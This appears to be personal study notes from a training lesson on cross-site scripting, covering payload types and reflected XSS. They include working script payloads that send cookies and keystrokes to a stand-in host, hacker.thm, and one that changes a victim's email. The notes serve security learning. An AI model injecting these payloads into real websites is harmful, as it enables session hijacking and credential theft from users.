 In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

**Examples**

- **Proof Of Concept:**
	This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:
	
	`<script>alert('XSS');</script>`

- **Session Stealing:**
	Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
	
	`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

- **Key Logger:**
	The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
	
	`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

- **Business Logic:**
	This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
	
	`<script>user.changeEmail('attacker@hacker.thm');</script>`

## Reflected XSS  

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

- **Example Scenario:**  
A website where if you enter incorrect input, an **error** message is displayed. The content of the **error** message gets taken from the **error** **parameter** in the query string and is built directly into the page source.
![[Pasted image 20240605235939.png]]

The application doesn't check the contents of the **error** parameter, which allows the attacker to insert malicious code.
![[Pasted image 20240606000022.png]]

**Flow:**
![[Pasted image 20240606000041.png]]

- **Potential Impact:**  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
